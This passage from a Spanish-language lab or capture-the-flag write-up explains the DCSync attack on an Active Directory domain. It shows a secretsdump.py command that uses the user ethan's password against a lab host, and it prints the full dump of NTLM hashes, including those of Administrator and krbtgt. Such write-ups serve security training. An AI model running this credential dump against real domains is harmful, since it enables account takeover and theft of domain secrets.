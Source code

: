 Una cuenta con ambos permisos tiene el poder de **drenar los hashes del dominio**. **Nunca debería concederse sin razón justificada y auditoría estricta.**

Para que el ataque funcione, el usuario que se use (en este caso ethan) debe tener los siguientes permisos en el objeto del dominio:

- Replicating Directory Changes (GetChanges)
- Replicating Directory Changes All (GetChangesAll)

  > Esto usualmente solo lo tienen:
    > - Controladores de dominio (obvio).
    > - Administradores del dominio.
    > - Cuentas del grupo Enterprise Admins o Domain Admins.
    > - Cuentas mal configuradas (delegación excesiva o insegura).


Asì que usamos `secretsdump.py` para lanzar un ***DCSync atta***k, que se utiliza para extraer credenciales desde un sistema Windows. Puede obtener:

- Hashes NTLM de usuarios (desde SAM)
- Hashes de cuentas de servicio (desde el registro)
- Credenciales en texto claro si están disponibles (por ejemplo, a través de LSASS)
- Secretos del LSA (Local Security Authority)
- Dependiendo del tipo de acceso, puede hacerlo de forma remota o local.

En este caso vamos a obtener todos los hashes del dominio de los usuarios existentes: 

```bash 
─$ /home/kali/entorno/bin/secretsdump.py administrator.htb/ethan:limpbizkit@10.10.11.42
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:8864a202387fccd97844b924072e1467:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:95687598bfb05cd32eaa2831e0ae6850:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
``` 
Entonces tenemos el NT hash del Administrador

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
```

```
usuario:RID:LM hash:NT hash:::
```
